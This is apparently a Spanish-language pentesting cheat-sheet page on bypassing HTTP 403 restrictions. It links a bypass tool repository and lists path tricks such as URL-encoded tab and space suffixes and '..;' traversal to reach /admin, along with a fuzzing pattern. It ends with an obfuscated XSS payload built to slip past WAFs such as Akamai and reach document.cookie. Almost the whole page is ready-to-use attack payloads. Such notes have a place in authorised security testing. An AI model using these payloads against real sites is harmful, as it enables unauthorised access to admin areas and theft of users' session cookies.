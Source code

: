 ```yaml
---
icon: face-shush
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Bypass

## <mark style="color:orange;">Error 403</mark>

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

```
git clone https://github.com/nazmul-ethi/Bypass-Four03.git
```

## <mark style="color:orange;">Alternativas para bypass 403</mark>

1- Usar símbolos de espacio

```
/admin -> 403
```

```
/admin%09 -> 200
```

```
/admin%20 -> 200
```

2- Usar el recorrido transversal:

```
/admin -> 403
```

```
/..;/admin -> 200
```

A veces se puede hacer un fuzz con el recorrido que termina con los resultados

```
/..;/FUZZ
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### <mark style="color:orange;">Bypass XSS WAF and Filters and Akamai</mark>

```
%22onmouseover=window[%27al%27%2B%27er%27%2B([%27t%27,%27b%27,%27c%27][0])](document[%27cooki%27%2B(['e','c','z'][0])]);%22
```

